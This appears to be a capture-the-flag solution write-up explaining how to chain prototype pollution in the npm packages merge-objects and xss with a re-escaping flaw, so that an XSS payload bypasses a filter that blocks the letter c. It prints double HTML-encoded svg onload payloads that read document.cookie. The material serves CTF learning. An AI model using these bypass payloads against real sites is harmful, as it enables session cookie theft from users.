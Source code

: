 # Solution
The intended solution involves chaining together the following three vulnerabilies from two different npm packages, roughly in this order:
1. `merge-objects` prototype pollution: https://npmjs.com/advisories/716
2. `xss` prototype pollution to XSS: https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/js-xss.md
3. `xss` failing to re-escape whitelisted attribute values: https://github.com/leizongmin/js-xss/issues/180

When used in conjunction, these vulnerabilies allow you to construct a payload that bypasses the XSS filter as well as the blacklist filter.
The purpose of the blacklist filter (`sanitized.replace(/C/g, '\u0421').replace(/c/g, '\u0441')`) is to make it so that if players want to access the `document.cookie` value, they have to take advantage of the fact that the XSS filter does not re-escape attribute values.

As an example, the payload `<svg onload="alert(document.cookie)">` 
would easily be caught by the blacklist filter because it contains multiple c's. HTML encoding the JavaScript portion once would give you
```html
<svg onload=&#97;&#108;&#101;&#114;&#116;&#40;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;>
```
which would still be caught as it would revert to `<svg onload="alert(document.cookie)">` once it is un-escaped by the XSS filter.

HTML encoding the JavaScript portion of the payload twice works because 
```html
<svg onload=&#38;&#35;&#57;&#55;&#59;&#38;&#35;&#49;&#48;&#56;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#49;&#49;&#52;&#59;&#38;&#35;&#49;&#49;&#54;&#59;&#38;&#35;&#52;&#48;&#59;&#38;&#35;&#49;&#48;&#48;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#57;&#57;&#59;&#38;&#35;&#49;&#49;&#55;&#59;&#38;&#35;&#49;&#48;&#57;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#49;&#49;&#48;&#59;&#38;&#35;&#49;&#49;&#54;&#59;&#38;&#35;&#52;&#54;&#59;&#38;&#35;&#57;&#57;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#49;&#48;&#55;&#59;&#38;&#35;&#49;&#48;&#53;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#52;&#49;&#59;>
```
becomes 
```html
<svg onload=&#97;&#108;&#101;&#114;&#116;&#40;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;>
```
after passing through the XSS filter. This payload will now make it past the blacklist filter and be served as a webpage to the hero, which will un-escape it an additional time and interpret it as
`<svg onload="alert(document.cookie)">` as intended. Please note that the actual payload will need to send the cookie to another server controlled by the attacker and the above payload is just for illustrative purposes.

The blacklist filter also forces players to use a somewhat more rare XSS payload that doesn't directly contain a "c", as a lot of the most common ones do (e.g. <code><s<b>c</b>ript sr<b>c</b>=...</code>, <code><img sr<b>c</b>=...</code>, <code><iframe sr<b>c</b>=...</code>, etc.).

Additonally, here is a list of XSS payloads that I used to find one that can be triggered without using a "c": https://gist.github.com/phra/76518994c908ac836ec5a393f188f89a
